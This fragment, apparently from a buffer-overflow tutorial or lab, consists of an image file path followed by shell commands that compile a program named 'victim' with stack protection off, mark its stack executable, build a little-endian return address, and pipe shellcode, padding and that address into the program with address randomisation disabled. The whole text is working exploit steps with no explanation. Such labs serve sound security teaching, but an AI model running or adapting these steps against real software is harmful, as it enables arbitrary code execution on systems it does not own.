 gcc -fno-stack-protector -o victim main.c
execstack -s victim
$ a=`printf %016x 0x7fffffffe090 | tac -rs..` 
$ echo $a 
90e0ffffff7f0000
$ ( ( cat shellcode ; printf %080d 0 ; echo $a ) | xxd -r -p ; 
cat ) | setarch `arch` -R ./victim

